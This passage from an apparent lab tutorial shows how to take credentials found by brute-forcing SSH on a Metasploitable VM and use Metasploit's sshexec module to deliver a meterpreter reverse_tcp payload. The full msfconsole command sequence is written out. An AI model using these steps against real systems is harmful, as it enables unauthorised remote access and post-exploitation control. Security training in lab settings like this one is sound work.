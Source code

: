 ![](../images/exploiting_ssh_using_bruteforce_4.png)
In my case I am using metasploitable with default login crudential,that why get the result as **username= msfadmin** and **password= msfadmin**.

From here, one way is we have ssh-crudentials and using them we can connect to the target via any ssh-client but using this we had to manually perform command for each task injecting payload and other post exploitation stuff. So automate the command execution task and integrate the ssh connection with metasploit framework we are using the **sshexec** module of metasploit framework for connecting via ssh.It makes running **custom payloads**, **privilege escalation**, and **post-exploitation** tasks easier and more structured.

```
msfconsole
msf > search multi/ssh/sshexec
msf > use exploit/multi/ssh/sshexec
msf exploit(multi/ssh/sshexec) > options
#set the payload options to a 32-bit payload as our target metasploitable is 32-bit vm
msf exploit(multi/ssh/sshexec) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/ssh/sshexec) > show targets
#set the target to x86(as this payload is compatible to 32-bit target)
msf exploit(multi/ssh/sshexec) > set target 1
#set the target ip, username and password we get from bruteforcing
msf exploit(multi/ssh/sshexec) > set RHOSTS 192.168.1.103
msf exploit(multi/ssh/sshexec) > set USERNAME msfadmin
msf exploit(multi/ssh/sshexec) > set PASSWORD msfadmin
#verify the options field
msf exploit(multi/ssh/sshexec) > show options
#run the exploit
msf exploit(multi/ssh/sshexec) > exploit
```
**Output**